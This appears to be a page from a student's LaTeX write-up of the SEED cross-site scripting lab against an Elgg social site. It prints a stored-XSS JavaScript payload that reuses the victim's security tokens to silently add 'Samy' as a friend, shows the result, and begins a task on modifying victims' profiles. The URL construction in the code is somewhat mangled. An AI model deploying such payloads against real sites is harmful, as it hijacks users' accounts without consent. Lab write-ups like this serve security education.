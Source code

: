 \documentclass[12pt]{article}
\begin{document}
\begin{verbatim}
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        // Time Stamp
        var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
        // Security Token
        var token= "&__elgg_token=" + elgg.security.token.__elgg_token;
        // ID of Samy, the user to be added as friend
        var addWhomID = 59;
        // ID of the user who is viewing the profile with ID 'addWhomID'
        var whoIsViewingID = elgg.session.user.guid;

        // If the user is viewing his own profile, then the attack is not performed
        if (whoIsViewingID == addWhomID) return;

        var sendurl = `/action/friends/add?friend=${addWhomID}&__elgg_ts=${ts}elgg_token=${token}&__elgg_ts=${ts}&__elgg_token=${token}`;

        //Create and send Ajax request to add friend
        Ajax = new XMLHttpRequest();
        // last boolean value is for asynchronous request making
        Ajax.open("GET", sendurl, true);
        Ajax.setRequestHeader("Host", "www.seed-server.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send();
	}
</script>
\end{verbatim}

After this, when Alice visits Samy's profile, the attack is executed and this is the result:
     \begin{figure}[H]
         \centering
         \includegraphics[width=\textwidth]{Images/ss1.png}
         \caption{Samy gets added as Alice's friend}
         \label{fig:ss1}
     \end{figure}

\newpage


\section*{Task 2 : Modifying the Victim’s Profile}
Again to get idea about what happens under the hood when a user modifies his/her profile, we modify Samy's profile from Samy's account. We see a POST request being made with these headers.
\end{document}
